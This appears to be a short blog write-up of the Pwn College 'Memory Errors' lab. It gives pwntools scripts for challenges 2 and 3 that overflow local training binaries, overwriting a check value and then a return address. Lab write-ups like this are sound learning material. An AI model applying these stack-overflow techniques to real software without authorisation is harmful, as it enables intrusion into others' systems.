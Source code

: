 ```yaml
---
layout: post
title:  "Pwn College - Memory Errors"
date:   2024-04-26 19:59:49 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Overview

This module teaches basics of stack overflow exploitation, adding mitigations and restrictions as challenges proceeds. 


## Challenge 1

Just insert 69 bytes.

## Challenge 2

```python
from pwn import *
import os, sys
import struct

p = process("/challenge/babymem_level2.0")

buf = b'A' * 48 + struct.pack('<I', 0x0385132d)
p.sendline(str(len(buf)))
p.send(buf)

p.interactive()
```

## Challenge 3

Overwrite the return address:

```python
from pwn import *
import os, sys
import struct

p = process("/challenge/babymem_level3.0")

buf = b'A' * 88 + struct.pack('<I', 0x40236c)
p.sendline(str(len(buf)))
p.send(buf)

p.interactive()
```

